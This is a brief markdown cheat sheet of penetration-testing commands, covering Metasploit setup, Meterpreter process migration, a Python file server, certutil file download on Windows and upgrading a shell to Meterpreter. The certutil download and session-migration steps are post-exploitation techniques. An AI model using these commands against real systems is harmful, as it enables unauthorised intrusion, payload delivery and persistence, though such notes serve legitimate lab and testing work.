 # Metasploit start
```
Start the postgresql service before using metasploit
service postgresql start
```

# X86 Meterpreter session
```
If in sysinfo meterpreter command output, showa x86 meterpreter, migrate to x64 proccess is the system is x64
> pgrep explorer 
> migrate PID
```

# HTTP server
```
python -m SimpleHTTPServer 80
```

# CMD file download
```
certutil -urlcache -f URL/FILE DESTINATION_FILE
```

# Upgrade shell to meterpreter
```
sessions -u SESSION_NUMBER
```